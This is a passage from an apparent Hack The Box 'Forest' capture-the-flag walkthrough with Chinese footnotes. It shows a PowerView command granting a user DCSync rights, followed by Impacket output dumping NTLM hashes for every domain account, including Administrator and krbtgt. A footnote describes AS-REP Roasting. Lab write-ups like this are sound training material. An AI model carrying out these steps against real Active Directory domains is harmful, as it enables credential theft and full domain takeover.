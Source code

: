 `Add-ObjectACL -PrincipalIdentity test123 -Credential $cred -Rights DCSync`

```shell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
test123:9601:aad3b435b51404eeaad3b435b51404ee:d25ecd13fddbb542d2e16da4f9e0333d:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:23a7dc0278cf82d4f5d8b46194bc0c54:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
```

[^3]: 对于未启用预身份验证的用户帐户（基本上禁用了 Kerberos 预身份验证），它容易受到 AS-REP Roasting 攻击。我们可以在不提供任何身份验证的情况下请求该用户的 Kerberos TGT 票证，并且我们将取回的 TGT 票证将使用该帐户的密码进行加密。所以我们可以离线破解哈希值。使用Impacket的GetNPUsers.py脚本，我们可以进行攻击
[^5]: https://github.com/BloodHoundAD/SharpHound/releases/tag/v2.4.1